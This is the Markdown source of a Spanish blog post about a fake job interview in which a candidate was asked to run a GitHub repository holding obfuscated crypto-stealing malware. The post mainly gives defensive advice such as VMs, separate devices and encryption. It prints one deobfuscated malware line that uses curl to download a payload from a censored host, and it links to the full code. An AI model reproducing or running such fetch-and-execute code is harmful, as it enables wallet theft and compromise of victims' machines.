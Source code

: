```yaml
---
aliases:
- /es/como-una-entrevista-laboral-se-convierte-en-un-robo-de-criptomonedas/
authors:
- Eduardo Zepeda
categories:
- opiniones
coverImage: images/tech-interview-hacking-obfuscated-code.jpg
date: '2024-12-14T22:24:18-06:00'
description: Esta es la historia de un tipo que estuvo a punto de perder todo su criptomonedas
  y probablemente ser hackeado en una entrevista de trabajo para un puesto remoto
keyword: ''
keywords:
- crypto
- interview
- github
- hacking
- docker
title: Como Una Entrevista Laboral Se Convierte En Un Robo De Criptomonedas
---
```


El otro día estaba navegando en esa máquina de propaganda política de Elon Musk, también conocida como X, y me topé con esta joya de la desvergüenza humana, un entrevistador que estuvo a punto de hackear a uno de sus postulantes.

## Ejecución de malware en las entrevistas laborales

La historia es esta: estás necesitado de trabajo, te preparas para la entrevista, y de repente el reclutador te pide clonar [una librería de Github](/es/opiniones/no-uses-github-para-evaluar-a-los-desarrolladores/) para que encuentres los errores en el código, una entrevista protocolaria para desarrollo de software, todo normal hasta este punto. Por supuesto que tú, necesitado de un buen laburo, decides seguir con el proceso.

Bueno, pues este chico fue lo suficientemente avispado como para leer el código a ejecutar antes de ejecutar ciegamente su voluminosa librería de *node_modules*. ¿Y con que se encontró? un suculento y delicioso código minimizado, ofuscado y con tintes de poner tu ordenador a minar criptomonedas. 

Nuestro amigo era como Jorge, curioso, así que embelleció el código y encontró:

- Lineas que parecen buscar y leer el contenido de carteras de Solana.
- Scripts que escanean directorios de navegadores.  
- [Llamadas a una API](/es/arquitectura de software/caracteristicas-basicas-de-una-api-rest/) directo a una dirección IP, sin dominio, algunos sin respuesta y otros que descargan scripts ofuscados en Python (supongo que le da un seguimiento al proceso de hackeo instalando un backdoor o algún RAT).


Si quieres ~~infectarte~~ leer el código visita [el repositorio de github](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), no me hago responsable de nada.

``` javascript
_0x42b722("curl -Lo \"" + _0x157519 + "\" \"" + "http://<censored>/pdown" + "\"", (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

{{<ad>}}

## ¿Cómo evitamos caer en estas trampas?

No planeo quedarme solo en el drama. Esto se trata de ofrecer algunas soluciones prácticas para que los script kiddies no te vean la cara de novato en una falsa entrevista de trabajo:

### **Usa un dispositivo diferente**

La opción más cómoda, pero también la más cara, mantén tus dispositivos separados, usa un ordenador para trabajo y pruebas técnicas y otro para tus asuntos personales, criptomonedas incluidas. 

### **Lee el código, siempre que sea posible**

¿El reclutador te manda un script? Examínalo con cuidado antes de ejecutarlo. Sí, ya sé, a veces el código es demasiado extenso o está ofuscado, pero si tienes algo de experiencia, puedes pasar tus ojos rápidamente por la pantalla y detectar las red flags. Claro, tampoco puedes perder toda la tarde con esto si estás en una entrevista real o valoras tu tiempo.

### **Usa una máquina virtual**

Monta una máquina virtual, ya sea Virtual Box o Gnome Boxes, en Linux, o un [contenedor de Docker completamente aislado](/es/docker/tutorial-de-comandos-basicos-de-docker/), si no te molesta no contar con una interfaz gráfica. 

Otra opción disponible, y mi favorita: una live USB con la distribución de tu elección (Debian, Fedora, o lo que quieras).

De esa manera, lo peor que puede pasar es que infecten tu máquina virtual y no tu equipo real con toda tu información personal. ¡Solo ten cuidado los volúmenes compartidos! Si montas tu disco duro en la VM, estás frito.

### **Cifra tu información sensible**

Aquí entra el clásico consejo de los veteranos de la vieja escuela de TI: **cifra tus datos importantes**. Si alguien logra acceder a tus colección de memes de gatitos, cífralos. 

No planeo ofrecer detalles porque ya hay demasiado en internet, Googlea sobre GPG o lee el manual directamente, si no estás tan familiarizado con la terminal o no te interesa, hay herramientas como Kleopatra, que vuelven más intuitivo el uso de la criptogorafía.

## No ejecutes código arbitrario en tu máquina personal

¿Tienes mejores ideas para protegernos de estas prácticas? Suelta tus consejos en redes sociales y etiquétame. Estoy ansioso de agregar tus sugerencias al post. 

Si quieres leer la historia completa dale una visita al blog de Elon... digo X. Editado: el propietario de la cuenta ha cambiado su configuración de privacidad, así que ahora no puedes ver la conversación completa.